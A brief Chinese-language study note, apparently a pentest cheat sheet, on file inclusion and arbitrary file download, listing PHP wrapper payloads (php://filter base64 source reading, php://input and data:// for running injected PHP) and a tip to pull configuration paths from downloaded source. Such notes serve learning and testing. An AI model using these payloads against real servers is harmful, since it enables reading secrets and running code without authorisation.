


# 文件包含

### 协议流玩法






```
file:///文件的绝对路径

php://filter/convert.base64-encode/resource=文件名 (php伪协议)

php://input（输入到搜索框）post输入php执行代码

data://text/plain,<?php php代码;?>
```

# 任意文件下载

先下载原代码，然后分析源代码，获取配置文件路径等
